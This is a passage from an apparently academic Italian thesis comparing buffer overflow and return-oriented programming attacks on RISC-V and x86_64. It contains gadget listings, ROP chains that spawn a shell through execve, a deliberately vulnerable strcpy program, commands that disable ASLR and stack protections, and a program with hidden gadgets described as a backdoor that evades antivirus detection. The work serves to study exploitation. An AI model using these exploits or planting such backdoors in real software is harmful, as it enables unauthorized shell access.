La seguente funzione è una leaf function che dichiara una variabile intera, la mette uguale a 1 e poi fa la return. Si può vedere che nell'epilogo della funzione è impossibile manipolare \textit{ra} e di conseguenza l'indirizzo di ritorno perché non è presente, ma è possibile fare solo una \textit{ret}. Se si atterrasse tramite overflow a un qualunque indirizzo di questa funzione il programma andrebbe in crash o non subirebbe un exploit funzionante.\\
\begin{minted}[escapeinside=||,mathescape=true]{c}
0x0000000000000668 <+0>:     addi    sp,sp,-32
0x000000000000066a <+2>:     sd      s0,24(sp)
0x000000000000066c <+4>:     addi    s0,sp,32
0x000000000000066e <+6>:     li      a5,1
0x0000000000000670 <+8>:     sw      a5,-20(s0)
0x0000000000000674 <+12>:    nop
0x0000000000000676 <+14>:    ld      s0,24(sp)
0x0000000000000678 <+16>:    addi    sp,sp,32
0x000000000000067a <+18>:    ret
\end{minted} 
In x86\_64 indipendentemente dal tipo di funzione è invece possibile fare un jump e manipolare i successivi indirizzi di ritorno salvati nello stack. Nel codice seguente, si ha la stessa leaf function del programma compilato per RISC-V. Qua è evidente che è possibile manipolare comunque l'indirizzo di ritorno perché il prologo e l'epilogo della funzione lavorano sullo stack e base pointer.
\begin{minted}[escapeinside=||,mathescape=true]{c}
0x0000000000001149 <+0>:     endbr64
0x000000000000114d <+4>:     push   %rbp
0x000000000000114e <+5>:     mov    %rsp,%rbp
0x0000000000001151 <+8>:     movl   $0x1,-0x4(%rbp)
0x0000000000001158 <+15>:    nop
0x0000000000001159 <+16>:    pop    %rbp
0x000000000000115a <+17>:    ret
\end{minted} 

Si sottolinea dato che il programma è stato compilato con tutte le mitigazioni possibili di sicurezza, è presente l'istruzione \textit{endbr64} (end branch) utilizzata per evitare salti indesiderati tra funzioni. 
\section*{Differenze tra ROP su RISC-V e x86\_64}
\addcontentsline{toc}{section}{Differenze tra ROP su RISC-V e x86\_64}
Nonostante è stato dimostrato che sfruttando un overflow ed una \textit{libc()} all'interno di un programma RISC-V è possibile avere un linguaggio turing completo tramite ROP, il numero di istruzioni per gadget su questa architettura è generalmente maggiore. Si analizza in primo luogo il gadget minimo che serve per fare un salto (gadget NOP) \cite{arxivRISCVROP}.
\begin{minted}[escapeinside=||,mathescape=true]{c}
c.ldsp ra, 8(sp)
c.addi sp, 0x0
c.jr ra
\end{minted} 
È possibile paragonare questa serie di istruzioni ad una semplice \textit{ret} di 1 byte su architettura x86\_64. In uno scenario in cui l'overflow da inserire è limitato, è meno probabile quindi riuscire ad eseguire una ROP su RISC-V rispetto a x86. Avere un numero maggiore di istruzioni per gadget causa delle complicazioni. Analizzando il codice assembly seguente
\begin{minted}[escapeinside=||,mathescape=true]{c}
c.ldsp ra, 0x28(sp)
c.ldsp s0, 0x20(sp)
c.ldsp a0, 0(sp)
c.ldsp a1, 8(sp)
c.ldsp s1, 0x18(sp)
c.ldsp s2, 0x10(sp)
c.addi16sp sp, 0x30
c.jr ra
\end{minted} 
Si può notare che se un attaccante vuole usare le istruzioni ``basse", ovvero vicino a \textit{c.jr ra}, non può sempre saltare direttamente all'istruzione voluta. Questo perché se ad esempio il salto avvenisse a \textit{c.ldsp s2, 0x10(sp)}, con la volontà di preservare i registri \textit{a0 a1} e \textit{s1}, il programma andrebbe in loop o in crash avendo saltato l'istruzione \textit{c.ldsp ra, 0x28(sp)} utilizzata per salvare l'indirizzo di ritorno. Questo porta due grandi limitazioni rispetto a x86\_64
\begin{itemize}
    \item Non sempre è possibile trovare le istruzioni che servono poste in modo contiguo
    \item L'attaccante deve focalizzarsi maggiormente su salti in prossimità dell'epilogo della funzione
\end{itemize}
Un modo di arginare almeno una parte del problema, è utilizzare dei registri che non vengono ripristinati dalla funzione, per costruire step by step un valore utile contenuto in un determinato registro. Per fare questo si utilizzano i \textit{callee-saved} registers, come i registri S. Si evitano invece i registri A (argomento) perché è altamente probabile, soprattutto per quelli bassi come \textit{a0}, \textit{a1} e \textit{a2} che vengano utilizzati dal compilatore come registri argomento della funzione.\\
Vediamo un esempio di chain di gadget in una ROP usando i registri S. Lo scopo della chain è quello di caricare in \textit{a0} il valore 3, invece che il valore 1 originario della funzione. Il primo gadget imposta \textit{s1} a 1 
\begin{minted}[escapeinside=||,mathescape=true]{c}
c.ldsp ra, 8(sp)
...
c.li s1, 0x01
c.jr ra
\end{minted} 
Il secondo gadget manipola il registro \textit{a0} e \textit{s0} ma in questo momento non è importante per la chain e nell'epilogo aggiunge 1 al registro \textit{s1}.
\begin{minted}[escapeinside=||,mathescape=true]{c}
c.ldsp ra, 8(sp)
...
c.ldsp a0, 0(sp)
c.addi s0, 0x01
c.addi s1, 0x01
c.jr ra
\end{minted} 
Alla fine viene nuovamente aggiunto 1 al registro \textit{s1} che viene incrementato fino ad arrivare al valore 3. Viene poi copiato il suo contenuto dentro \textit{a0} che verrà utilizzato per fare una chiamata di funzione con l'argomento intero a 3 invece che impostato a 1.
\begin{minted}[escapeinside=||,mathescape=true]{c}
c.ldsp ra, 8(sp)
...
c.addi s1, 0x01
mv a0 s2
...
jal ra, <funzione>
c.jr ra
\end{minted} 

\section*{Esempio di ROP su RISC-V}
\addcontentsline{toc}{section}{Esempio di ROP su RISC-V}
Per capire la differenza tra attacchi ROP sulle due architetture diverse, partiamo da un esempio di ROP su architettura RISC-V. In figura \ref{ref:riscv-rop} è possibile vedere il flusso di esecuzione di un attacco che sfrutta la funzione \textit{strcpy()} come entrypoint per scrivere nello stack e sovrascrivere l'indirizzo di ritorno. In questo scenario l'ALSR, la stack protection e i canarini devono essere disabilitati affinché l'attacco funzioni.\\
\newline
Lo scopo dell'exploit è chiamare la funzione \textit{system()} con al suo interno nei registri argomento a0 e a1 i parametri necessari per aprire una shell, ovvero con \textit{a0 = /bin/sh} e \textit{a1 = 0}.\\
Sovrascrivendo l'indirizzo di ritorno grazie all'overflow è possibile atterrare sul primo gadget che setta a 0 i registri. Verrà poi utilizzato un secondo gadget per caricare nel registro a7 il valore 221, ovvero la system call numero 221 che su sistemi RISC-V è la \textit{execve()}. Alla fine viene copiato nel registro a0 quello che si trova nello stack (che ora è manipolato dall'attaccante che immetterà l'overflow e la stringa \textit{/bin/sh}).\\
A fine attacco viene fatta la ecall che di fatto eseguirà il seguente codice ricostruito tramite ROP.
\begin{minted}[escapeinside=||,mathescape=true]{c}
execve("/bin/sh", 0)
\end{minted} 
Questa tecnica è anche chiamata ``code reuse".\\
\newline
Un attaccante che ha accesso al sistema può scegliere l'approccio ROP anche per avere una persistent backdoor, compilando un progamma e lasciando per tutto lo stack delle funzioni e quindi dei gadget per ricostruire una chain all'occorrenza. Questo è un modo per bypassare i comuni antivirus che basano la detection su delle ``signature" del codice, o che fanno solo analisi statica del programma.\\
In questo scenario, come tutte le ROP, anche se il programma è compilato con DEP (data execution prevention) e con le mitigazioni dello stack, l'exploit avrà comunque successo perché non viene immesso alcuno shellcode, ma solo dati utili a costruire la chain e la stringa \textit{/bin/sh}.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.8\linewidth]{images/riscv-rop.png}
    \caption{Logica di un attacco ROP su RISC-V}
    \label{ref:riscv-rop}
\end{figure}
\FloatBarrier
\vspace{1cm}
Se questa ROP viene compilata con librerie dinamiche, è probabile trovare l'istruzione ``ecall" mancante. Questo perché si utilizzano funzioni di libreria che fanno da wrapper, come nel caso della \textit{system()}. Se il programma fosse compilato con questo approccio, al posto dell'ultimo gadget ci sarebbe stata una \textit{jal} alla funzione \textit{system()} della libc. Questo avrebbe potuto causare dei problemi dato che a tutti gli effetti viene poi chiamata una funzione che ha un prologo ed un epilogo e quindi i registri verranno manipolati causando un potenziale crash del programma. L'attaccante avrebbe dovuto quindi analizzare dentro la funzione \textit{system()} dove viene eseguita la system call e saltare direttamente a quell'indirizzo.

\section*{Esempio di ROP su x86}
\addcontentsline{toc}{section}{Esempio di ROP su x86}
Su questa architettura come detto in precedenza lo stack non fa riferimento a dei registri per contenere l'indirizzo di ritorno, ma lo memorizza direttamente lui stesso.\\
Nel seguente attacco in figura \ref{ref:x86-rop} si può vedere che dopo l'overflow, quando la funzione farà l'istruzione \textit{ret}, l'attaccante sarà in grado di saltare all'indirizzo puntato da \textit{esp} in seguito a \textit{pop \%edx}. In questo caso \textit{esp} punterà al'indirizzo arbitrario scelto dall'attaccante (\textit{0xdeadbeef}), messo nello stack, che sarà l'indirizzo del prossimo gadget. In questo modo è possibile creare catene di gadget utilizzando solamente byte immessi nello stack dall'attaccante.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/x86-rop.png}
    \caption{Logica di un attacco ROP su x86} \cite{infosecwriteupsROP}
    \label{ref:x86-rop}
\end{figure}
\FloatBarrier
\vspace{1cm}
Riassumendo, possiamo dire che l'architettura RISC-V è basata su \textit{load e store} nei registri, mentre quella x86 e x86\_64 è completamente stack based e si basa su istruzioni come \textit{POP e RET}. In quest'ultima architettura viene infatti usata la \textit{POP} per prendere i valori dell'indirizzo a cui saltare sullo stack e la \textit{RET} per saltare a quell'indirizzo. Il fatto che esista una singola istruzione permette all'attaccante di utilizzare qualunque epilogo di funzione per costruire una ROP-chain. Su RISC-V non è possibile seguire questa metodologia.\\
\section*{Costruzione della ROP-chain e gadget essenziali}
\addcontentsline{toc}{section}{Costruzione della ROP-chain e gadget essenziali}
Per costruire una chain, qui è infatti necessario ripristinare lo stato dei registri che si sono usati. Come si può vedere nell'esempio seguente al fine di utilizzare questo gadget per caricare nel registro \textit{s1} i valori decisi dall'attaccante, è anche necessario sfruttare un payload maggiore, dato che \textit{s0, s2, s3} devono mantenere lo stato tra le chiamate a funzione, come definito nella calling convention. Perciò l'attaccante deve fornire dei valori fasulli per far sì che questi registri siano effettivamente caricati dallo stack.
\begin{minted}[escapeinside=||,mathescape=true]{c}
li    a0, 0
ld    ra, 40(sp)
ld    s0, 32(sp)
ld    s1, 24(sp)
ld    s2, 16(sp)
ld    s3, 8(sp)
addi  sp, sp, 48
ret
\end{minted}
Una delle path di attacco per una ROP su RISC-V è quindi la seguente
\begin{enumerate}
    \item Provocare un overflow in memoria (stack o heap)
    \item Individuare una funzione (di solito nella libc) che manipola i registri necessari (a0-a7 / s2-s11)
    \item Caricare nel registro \textit{ra} l'indirizzo di ritorno al prossimo gadget
    \item Riempiere lo stack di valori necessari per sovrascrivere i registri interessati
    \item Ripetere il punto 2 finché non si è costruito il codice arbitrario
\end{enumerate}
Di solito il primo gadget che si cerca è sempre un gadget che carica il maggior numero di registri possibili, in modo che l'attaccante abbia il payload ``già caricato" di alcuni registri. Il seguente gadget è preziosissimo, perché permette di caricare di un valore arbitrario passato sullo stack i registri a0-a7, ovvero i registri argomento usati dall'architettura. Riuscendo a manipolare questi registri sarà infatti possibile eseguire una system call con fino a 7 argomenti.\\
Questo è anche un gadget ``chainable" perché parte di una non-leaf function e ciò permette di decidere anche il prossimo indirizzo di ritorno caricando un valore a \textit{72(sp)}.
\begin{minted}[escapeinside=||,mathescape=true]{c}
ld	ra,72(sp)
ld	a0,8(sp)
ld	a1,16(sp)
ld	a2,24(sp)
ld	a3,32(sp)
ld	a4,40(sp)
ld	a5,48(sp)
ld	a6,56(sp)
ld	a7,64(sp)
ld	s1,80(sp)
addi      sp,sp,88
jr	ra
\end{minted}
Altri gadget preziosi sono quelli che permettono di eseguire system call. Il seguente gadget imposterà 1 come argomento della system call \textit{exit}, caricherà il registro \textit{a7} del valore corrispondente al numero della systemcall e alla fine chiamerà la system call.
\begin{minted}[escapeinside=||,mathescape=true]{c}
li a0, 1
li a7, 93
ecall
\end{minted}
Altri gadget essenziali, sono quelli che permettono di saltare a determinati registri, valori o che permettono di eseguire calcoli nei registri, ma non verranno qua presentati.\\
Per concludere, è possibile dare delle linee guida per la costruzione di una ROP su RISC-V, rispetto a una su x86\_64.
\begin{itemize}
    \item La ROP exploitation è relegata solo a epiloghi di funzioni non-leaf
    \item L'attaccante deve essere in grado di manipolare il registro ra scrivendo a multipli di 8 byte nello stack
    \item Deve essere possibile a caricare un immediato di N byte nel registro sp per ripristinare lo stack pointer
    \item Si deve trovare una sequenza di istruzioni extra per eseguire i calcoli necessari
    \item L'attacco deve finire principalmente con una return
\end{itemize}
Alla luce di questo, sviluppare un attacco ROP su RISC-V è generalmente più difficile rispetto ad un attacco ROP sull'architettura x86 e x86\_64, sia per difficoltà nella ricerca di gadget, sia per il numero di gadget disponibili.\\
È da sottolineare che x64 di solito richiede meno gadget durante un attacco ROP, per la sua struttura dei registri, ma la concatenazione dei gadget è di solito più complessa a causa dello spazio maggiore in byte che richiedono i registri essendo un architettura a 64 bit. 
\newpage
\chapter*{Capitolo 4}
\addcontentsline{toc}{chapter}{Capitolo 4}


\section*{Attacchi}
\addcontentsline{toc}{section}{Attacchi}
In questo capitolo verranno presentati i test e le tipologie di exploit sviluppati in questa tesi allo scopo di comprendere gli attacchi Buffer Overflow e Return Oriented Programming su architettura RISC-V. Si vedranno codici assembly, metodi di attacco su binari, schede elettroniche e costruzione di ROP-chain tramite LLMs.
\section*{Attacchi Memory Corruption}
\addcontentsline{toc}{section}{Attacchi Memory Corruption}
\subsection*{Buffer Overflow su SiFive u74-mc}
\addcontentsline{toc}{subsection}{Buffer Overflow su SiFive u74-m}
Questo è uno scenario che proviene dall'ISA \textit{RV64IMAFDC}, con un sistema operativo \textit{GNU/Linux Ubuntu 22.04.3 LTS}, che è attualmente uno dei nodi del Cluster RISC-V del Monte Cimone ospitato presso l'universita di Bologna\cite{mcimone}.\\
\begin{minted}[escapeinside=||,mathescape=true]{c}
void not_called() {
    printf("Enjoy your shell!\n");
    system("/bin/bash");
}

int test_empty() {
    printf("Empty function\n");
    return 1;
}

void vulnerable_function(char* string) {
    char buffer[100];
    test_empty();
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
\end{minted}
Il codice mostrato sopra prende un buffer di 100 caratteri in input e li copia tramite \textit{strcpy()} in una stringa. La vulnerabilità, come detto in precedenza è la presenza della funzione \textit{strcpy()} che non controlla la lunghezza della stringa inserita.\\
È poi presente una funzione \textit{not\_called()} mai chiamata che fornisce una shell. Se questo programma viene attaccato tramite buffer overflow e l'attaccante riesce a saltare alla funzione che restituisce la shell, l'attaccante riesce ad ottenere una shell nel sistema. In aggiunta se il programma appartiene all'utente \textit{root} ed ha impostato il \textit{setuid bit} a 1 \cite{cbtnuggets}, l'attaccante avrà una shell come amministratore sul sistema.
Il primo step per testare un attacco Buffer Overflow è compilare il programma senza mitigazioni di sicurezza.
\begin{minted}{c}
gcc vuln.c -fno-stack-protector -z execstack -no-pie -Wl,-z,norelro -o riscv_bof.out
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
\end{minted}
In figura \ref{ref:riscv-decompiled} è presente l'analisi del decompilato tramite GDB, dove è possibile vedere il salto alla funzione vulnerabile e l'indirizzo di \textit{not\_called()} ottenuto tramite decompilatore.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.9\linewidth]{images/gdb_riscv.png}
    \caption{Decompilato RISC-V con GDB}
    \label{ref:riscv-decompiled}
\end{figure}
\FloatBarrier
\vspace{1cm}
Una volta individuata la vulnerabilità e aver visto che a tutti gli effetti \textit{vulnerable\_function()} è una funzione non-leaf, dato che chiama al suo interno un'altra funzione test\_emtpy(), è possibile strutturare l'attacco Buffer Overflow.\\
Per prima cosa deve essere riempito il buffer, quindi l'attaccante deve fornire un numero di caratteri (in questo caso ``A") abbastanza grande da saturare l'array. In questo codice è chiaro che l'attaccante deve fornire almeno 100 caratteri in input.\\
Come si vede dal disassemblato della funzione vulnerabile in figura \ref{ref:vuln-function}, vengono aggiunti 8 ulteriori byte (136-128) per riempire lo stack riservato dall'istruzione \textit{sd  ra,136(sp)} e altri 8 byte di cui 4 di padding e altri 4 per sovrascrivere l'indirizzo di ritorno con l'indirizzo dell'inizio della funzione \textit{not\_called()}. L'indirizzo è scritto al contrario perché l'architettura è little-endian.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.6\linewidth]{images/vulnerable-function.png}
    \caption{Disassemblato di vulnerable\_function()}\
    \label{ref:vuln-function}
\end{figure}
\FloatBarrier
\vspace{1cm}
Come è possibile vedere nella figura sottostante è poi possibile lanciare l'exploit utilizzando \texttt{(cat - ) | EXPLOIT} (oppure lanciando lo stesso comando da dentro GDB, ma usando l'istruzione \textit{run}) per immettere l'input dato dal programma python come argomento e tenere la shell aperta per una risposta dal programma. In questo caso la funzione \textit{not\_called()} va in loop perché non è stato gestito correttamente il ripristino dell'indirizzo di ritorno, ma dato che la funzione \textit{system()} opera una fork, verremo agganciati a quest'ultima che restituirà una shell semi-interattiva all'attaccante che ora avrà command execution sul sistema. Questo exploit a tutti gli effetti ha generato una backdoor.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/exploit_riscv_bof.png}
    \caption{Exploit basato su BOF su RISC-V}
\end{figure}
\FloatBarrier
\vspace{1cm}
È utile qui considerare una limitazione e differenza rispetto alle architettura x86\_64 e x86. In quest'ultimo tipo di architetture, infatti è possibile porre istruzioni NOP (opcode 90) \cite{NOP} per fare il cosiddetto ``NOP-slide" o ``NOP-sled", ovvero l'operazione di scivolare nello stack riempito di istruzioni NOP da 1 byte, fino al raggiungimento dell'istruzione voluta (di solito un salto). Se un attaccante atterra su un NOP slide, verrà infatti portato fino alla fine dello scivolo in cui ci sarà l'istruzione interessata. \\
Questo tipo di approccio è utilizzato in combinazione con gli shellcode e viene utilizzato quando all'attaccante non è conosciuta la dimensione del buffer attaccato, ma è anche utile nel caso in cui si voglia avere una parte dello stack riempita di istruzioni che non fanno nulla, evitando però gli 00, che simboleggiano il valore 0 in esadecimale, ma carattere NULL su UTF8 e che potrebbero mandare in crash l'exploit.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.2\linewidth]{images/nop-slide.png}
    \caption{NOP slide}
\end{figure}
\FloatBarrier
\vspace{1cm}
Su RISC-V un approccio in stile ``NOP-sled" non è sempre possibile in quanto non sempre è implementata nell'ISA una istruzione che fa NOP in un byte \cite{NOPArch}, ma in base all'implementazione possiamo avere \textit{ADDI x0, x0, 0} di 4 byte o un'istruzione compressa \textit{C.NOP} da 2 byte.\\
In aggiunta, l'insieme di NOP deve essere compatibile con le istruzioni load e store che vengono effettuate nei registri durante l'esecuzione del programma.
\subsection*{Return Oriented Programming con codice assembly inline}
\addcontentsline{toc}{subsection}{Return Oriented Programming con codice assembly inline}
Il seguente codice \cite{ctftime} presenta la vulnerabilità precedente, ovvero un buffer overflow ed ha all' interno del codice dei gadget ``hardcoded" in assembly.  L'idea di questo test è sfruttare i gadget messi apposta per generare una backdoor e avere un programma all' apparenza innocuo ma che chiamato con l'apposita sequenza esadecimale in input, genera una system call \textit{execve()} che restituisce una shell. 
\begin{minted}[escapeinside=||,mathescape=true]{c}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void not_called() {
    asm ("li a7, 221");
    asm ("ecall");
    return;
}

int test_empty2() {
    asm ("li s1, 0x68732f6e69622f");   //hex of string /bin/bash
    asm ("sd s1, -16(sp)");
    asm ("addi a0,sp,-16");
    asm ("slt a1,zero,-1");
    asm ("slt a2,zero,-1");
    asm ("jal ra, 0x10506");
    return 1;
}

void test_empty() {
   puts("Test empty");
   return;
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    test_empty();
    vulnerable_function(argv[1]);
    return 0;
}
\end{minted}
Anche questo tipo di codice raramente verrebbe identificato da un antivirus su un sistema Linux che fa analisi statica, dato che la catena di istruzioni viene eseguita solo a runtime e a seguito di un exploit.\\
\newline
Analizzando il codice, la funzione \textit{vulnerable\_function()} una volta che l'attaccante riesce a generare l'overflow, deve stavolta atterrare su \textit{test\_empty2()} che possiamo immaginare come primo gadget dell'exploit, che carica sul registro \textit{s1} la stringa in esadecimale \textit{/bin/bash}. Successivamente viene caricata la stessa stringa nel registro \textit{a0} per essere utilizzata come argomento della chiamata di funzione successiva e vengono caricati i valori 0 nei rimanenti registri argomento a1 e a2, anche se questa operazione non è necessaria. Alla fine viene simulata una jump and link all'indirizzo della funzione \textit{not\_called()} che contiene i gadget necessari per fare una systemcall, pur non essendo una \textit{leaf function}.\\
\newline
Questo salto, pur non dirottando il flusso di esecuzione del programma, è un primo esempio di Return Oriented Programming, che utilizza pezzi di codice trovati sparsi per le funzioni per costruire una chain effettiva ed eseguire dcodice arbitrario. L'exploit che viene presentato ha come scopo quello di aprire una shell sul sistema.\\
\newline
Utilizzando tool come ROPGadget il codice assembly hardcoded è a tutti gli effetti riconosciuto come una serie di gadget ``preziosi" e può essere trovato tramite opportuni filtri. Un esempio di query per trovare gadget di profondità (importanza) 10 su architettura RISC-V è il seguente.
\begin{minted}[escapeinside=||,mathescape=true]{c}
ROPgadget --rawMode=64 --rawArc=riscv --rawEndian=little --depth=10 
--offset 0000000000010000 --binary=rop.o > gadgets
\end{minted}
È importante ricordare che lo stack è gestito dal compilatore, ovvero da \textit{GCC} nei casi precedenti di compilati. Di seguito è presentato un esempio in cui si è scritto un codice assembly che senza usare elementi dello stack usa i registri (load immediate e load address) per caricare gli argomenti e la \textit{ecall} per scatenare una system call ed aprire una shell. 
\begin{minted}[escapeinside=||,mathescape=true]{c}
.global _start

.section .text
_start:
	la a0, shell
	li a1, 0
	li a2, 0
	li a7, 221
	ecall 

	li a0, 1
	li a7, 93
	ecall

shell:
 .ascii "/bin/bash"
\end{minted}
